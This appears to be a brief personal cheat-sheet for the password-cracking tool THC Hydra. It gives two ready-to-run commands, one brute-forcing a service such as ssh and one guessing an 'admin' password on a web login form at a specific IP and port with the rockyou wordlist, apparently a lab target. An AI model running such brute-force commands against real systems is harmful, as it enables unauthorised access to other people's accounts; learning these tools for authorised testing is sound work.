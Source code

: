 # THC Hydra



## Usage

How to run hydra to try passwords agains a service (like ssh):

	hydra -L usernames.txt -p 'password' {target_ip} service_name

Bruteforce web requests:

	hydra -l admin -P rockyou.txt -f 94.237.54.42 -s 54747 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"